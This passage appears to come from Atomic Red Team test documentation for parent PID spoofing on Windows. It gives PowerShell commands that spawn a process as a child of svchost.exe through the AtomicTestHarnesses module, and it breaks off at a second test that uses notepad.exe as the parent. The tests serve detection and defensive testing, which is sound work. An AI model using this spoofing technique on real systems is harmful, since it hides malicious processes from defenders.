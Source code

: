 Spawnd a process as a child of the first accessible svchost.exe process.

**Supported Platforms:** Windows

**auto_generated_guid:** e9f2b777-3123-430b-805d-5cedc66ab591

#### Inputs:

| Name         | Description                           | Type   | Default Value                                                              |
| ------------ | ------------------------------------- | ------ | -------------------------------------------------------------------------- |
| command_line | Specified command line to use         | string | -Command Start-Sleep 10                                                    |
| file_path    | File path or name of process to spawn | path   | $Env:windir&#92;System32&#92;WindowsPowerShell&#92;v1.0&#92;powershell.exe |

#### Attack Commands: Run with `powershell`!

```powershell
Get-CimInstance -ClassName Win32_Process -Property Name, CommandLine, ProcessId -Filter "Name = 'svchost.exe' AND CommandLine LIKE '%'" | Select-Object -First 1 | Start-ATHProcessUnderSpecificParent -FilePath #{file_path} -CommandLine '#{command_line}'
```

#### Dependencies: Run with `powershell`!

##### Description: The AtomicTestHarnesses module must be installed and Start-ATHProcessUnderSpecificParent must be exported in the module.

##### Check Prereq Commands:

```powershell
$RequiredModule = Get-Module -Name AtomicTestHarnesses -ListAvailable
if (-not $RequiredModule) {exit 1}
if (-not $RequiredModule.ExportedCommands['Start-ATHProcessUnderSpecificParent']) {exit 1} else {exit 0}
```

##### Get Prereq Commands:

```powershell
Install-Module -Name AtomicTestHarnesses -Scope CurrentUser -Force
```

<br/>
<br/>

## Atomic Test #5 - Parent PID Spoofing - Spawn from New Process

Creates a notepad.exe process and then spawns a powershell.exe process as a child of it.

**Supported Platforms:** Windows

**auto_generated_guid:** 2988133e-561c-4e42-a15f-6281e6a9b2db

#### Inputs:

